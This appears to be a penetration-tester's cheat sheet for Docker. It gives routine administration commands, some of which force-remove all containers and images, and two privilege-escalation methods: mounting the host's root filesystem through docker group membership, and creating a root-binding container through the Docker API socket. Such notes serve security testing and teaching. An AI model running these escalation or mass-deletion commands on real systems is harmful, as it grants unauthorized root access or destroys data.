 ```yaml
---
title: "Docker"
date: 2024-7-3
tags: ["docker", "privesc", "container", "escape", "dive"]
---
```


### Basic Commands

<div>

```console
# Show all running processes
sudo docker ps -a
```

```console
# Show all images
sudo docker images -a
```

```console
# Stop all processes
sudo docker stop $(sudo docker ps -a -q)
```

```console
# Remove all processes
sudo docker rm -vf $(sudo docker ps -a -q)
```

```console
# Remove all images
sudo docker rmi -f $(sudo docker images -aq)
```

```console
# Shell in docker
sudo docker exec -it <CONTAINER_NAME> sh
```

```console
# Copy file from host to container
sudo docker cp <HOST_FILE_PATH> <CONTAINER_ID>:<CONTAINER_FILE_PATH>
```

```console
# Copy file from container to host
sudo docker cp <CONTAINER_ID>:<CONTAINER_FILE_PATH> <HOST_FILE_PATH>
```

```console
# Copy folder from host to container
sudo docker cp <HOST_FOLDER_PATH>/. <CONTAINER_ID>:<CONTAINER_TARGET_PATH>
```

```console
# Copy folder from container to host
sudo docker cp <CONTAINER_ID>:<CONTAINER_FOLDER_PATH>/. <HOST_TARGET_PATH>
```

</div>

<br>

---

### Explore Docker image

{{< tab set1 tab1 active >}}dive{{< /tab >}}
{{< tabcontent set1 tab1 >}}

<div>

```console
dive docker-archive://image.tar
```

</div>

<small>*Ref: [dive](https://github.com/wagoodman/dive)*</small>

{{< /tabcontent >}}

<br>

---

### Abuse #1: Docker group

<div>

```console
# List images
docker images
```

```console
# Mount host root filesystem
docker run -v /:/mnt -it <IMAGE_NAME> bash
```

```console
# Check
ls /mnt/root
```

</div>

<br>

---

### Abuse #2: Docker API

<div>

```console
# Show running containers
curl -s --unix-socket /var/run/docker.sock http://localhost/images/json
```

```console
# Create container
curl -s -X POST -H 'Content-Type: application/json' --data-binary '{"Image": "<IMAGE_NAME>:latest","HostConfig": {"Binds": ["/:/r"]}, "Cmd": ["/bin/sh", "-c", "ls -la /r/root/"], "Tty": true}' --unix-socket /var/run/docker.sock http://localhost/containers/create
```

```console
# Start container
curl -s -X POST -H 'Content-Type: application/json' --unix-socket /var/run/docker.sock http://localhost/containers/<CONTAINER_ID>/start
```

```console
# Show results
curl -s --unix-socket /var/run/docker.sock "http://localhost/containers/<CONTAINER_ID>/logs?stderr=1&stdout=1"
```

</div>

<br>